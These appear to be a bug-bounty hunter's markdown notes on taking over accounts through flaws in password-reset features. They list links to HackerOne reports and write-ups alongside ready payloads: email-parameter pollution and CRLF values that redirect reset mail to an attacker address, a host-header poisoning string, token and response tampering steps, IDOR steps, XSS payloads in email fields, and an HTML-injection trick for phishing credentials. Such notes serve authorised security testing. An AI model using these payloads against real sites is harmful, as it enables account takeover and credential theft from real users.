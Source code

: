 ```yaml
---
tags:
  - web_hunting
---
```

- **[Weak Cryptography to Account Takeover’s](https://vasuyadav0786.medium.com/weak-cryptography-to-account-takeovers-87782224ed0d)** 
- **[Weak Cryptography in Password Reset](https://infosecwriteups.com/weak-cryptography-in-password-reset-to-full-account-takeover-fc61c75b36b9)**
- [**Host Header Poisoning](https://hackerone.com/reports/1108874)**
    [0xacb.com/normalization_table](https://0xacb.com/normalization_table)
    ```python
    victim.com@attacker.com 
    ```
- **[IDN Homograph Attack leads to ATO](https://infosecwriteups.com/how-i-was-able-to-change-victims-password-using-idn-homograph-attack-587111843aff)**  
- _**Password reset with manipulating email parameter (BAC)**_
```python
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
#No domain:
email=victim
#No TLD (Top Level Domain):
email=victim@xyz
#change param case 
email=victim@mail.com&Email=attacker@mail.com
email@email.com**,**victim@hack.secry  
email@email**“,”**victim@hack.secry  
email@email.com**:**victim@hack.secry  
email@email.com**%0d%0a**victim@hack.secry  
**%0d%0a**victim@hack.secry  
**%0a**victim@hack.secry  
victim@hack.secry**%0d%0a**  
victim@hack.secry**%0a**  
victim@hack.secry**%0d**  
victim@hack.secry**%00**  
victim@hack.secry**{{}}**
```

```python
step 1: Attacker Enter the victim's email or mobile number into the forgot password field.
step 2: Attacker intercept the request and got JSON data like that

{“email”:”victim@gmail.com”,”token”:”1234"}
step 3: Attacker change victim email to his email id

{“email”:”attacker@gmail.com”,”token”:”1234"}
and forward the request.

*Notice on the old token is deactivated or not.
```
- **Response Manipulation to ATO**
    
    ```jsx
    1. Do Normal Reset Password Process and note the successful  response 
    2. Request for reset password token 
    3. enter 00000 or any random number 
    4. Intercept the response
    5. delete error message and change the status code to 200 and change body like what you noted in step1
    ```    
- IDOR to ATO
    
    **IDOR on Reset Password**
    
    The last one was also an Basic IDOR, When I requested for reset password then the request response looks like this
    
    ![https://miro.medium.com/v2/1*7GQ1sbFDEllEY1kpQodGoA.jpeg](https://miro.medium.com/v2/1*7GQ1sbFDEllEY1kpQodGoA.jpeg)
    
    Then OTP came to my email and I entered the OTP but when I entered new password and captured that request
    
    ![https://miro.medium.com/v2/1*Vk7-7Tdd_bFmWAul2_BsSQ.jpeg](https://miro.medium.com/v2/1*Vk7-7Tdd_bFmWAul2_BsSQ.jpeg)
    
    Then I noticed there was no OTP field, but there was a user id, which was encrypted but was being leaked in the response, so I just replaced it with the user id of another account, and bam, my other account’s password was changed.
    
- Race Condition
    
    [Lab: Exploiting time-sensitive vulnerabilities | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/race-conditions/lab-race-conditions-exploiting-time-sensitive-vulnerabilities)
    
- Play with token
    
    ```python
    1- Completely remove the token
    2- change it to 00000000...
    3- use null/nil value
    4- try expired token
    5- try an array of old tokens
    6- look for race conditions
    7- change 1 char at the begin/end to see if the token is evaluated
    8- use unicode char jutzu to spoof email address
    ```
    
- **[Password reset broken logic [Portswigger]](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)**
    
- **[No length on password](https://hackerone.com/reports/1411363)**
    
- **XSS in email section**
    
    ```jsx
    "hello<form/><!><details/open/ontoggle=alert(1)>"@gmail.com
    ["');alert('XSS');//"]@xyz.xxx
    “><svg/onload=confirm(1)>”@x.y
    “><svg/onload=confirm(1)>”@x.y
    test@gmail.com%27\\%22%3E%3Csvg/onload=alert(/xss/)%3E
    
    ```
    
- **[Reset/Forgotten Password Bypass [Hacktricks]](https://book.hacktricks.xyz/pentesting-web/reset-password)**
- **[Bruteforcing password reset tokens](https://hackerone.com/reports/271533)**
    
- **[No Rate Limit On Reset Password](https://hackerone.com/reports/1166066)**
    
- **[Enumeration of username on password reset page](https://hackerone.com/reports/806151)**
    
- **[Password reset token leaked via Referer header](https://hackerone.com/reports/1320242)**
    
    - Request password reset to your email address
    - Click on the password reset link
    - Dont change password
    - Click any 3rd party websites(eg: Facebook, twitter)
    - Intercept the request in burpsuite proxy
    - Check if the referer header is leaking password reset token.
    
    **Reference:**
    
    - [https://hackerone.com/reports/342693](https://hackerone.com/reports/342693)
    - [https://hackerone.com/reports/272379](https://hackerone.com/reports/272379)
    - [https://hackerone.com/reports/737042](https://hackerone.com/reports/737042)
    - [https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a](https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a)
    - [https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1](https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1)
    
    **Impact**
    
    It allows the person who has control of particular site to change the user’s password (CSRF attack), because this person knows reset password token of the user.
    
- [**Failure to Invalidate Session > On Password Reset**](https://hackerone.com/reports/411337)
    
- **[HTML_Injection_on_password_reset_page](https://github.com/KathanP19/HowToHunt/blob/master/HTML_Injection/HTML_Injection_on_password_reset_page.md)**
    
    ```
    ### Steps
    
    1. Create your account
    2. Edit your name to `<h1>attacker</h1>` or `"abc><h1>attacker</h1>` and save it.
    3. Request for a reset password and check your email.
    4. You will notice the `<h1>` tag getting executed
    
    * HTML injection are usually considered as low to medium severity bugs but you can escalate the severity by serving a
    malicious link by using `<a href>` for eg: `<h1>attacker</h1><a href="your-controlled-domain"Click here</a>`
    
    * You can redirect the user to your malicious domain and serve a fake reset password page to steal credentials
    Also you can serve a previously found XSS page and steal user cookies etc etc.. The creativity lies on you..
    
    ```
    
- **Password Reset Token Sent Over HTTP**
    
- **Token is Not Invalidated After Use**
    
- **Cleartext Transmission of Session Token**
    
- **[Password Policy Restriction Bypass](https://hackerone.com/reports/1675730)**
    
- Token is Not Invalidated After Email Change/Password Change
	- [Chaturbate | Report #411337 - Forget password link not expiring after email change. | HackerOne](https://hackerone.com/reports/411337)
    
- Token Has Long Timed Expiry
    
- Token is Not Invalidated After New Token is Requested
    
- Token is Not Invalidated After Login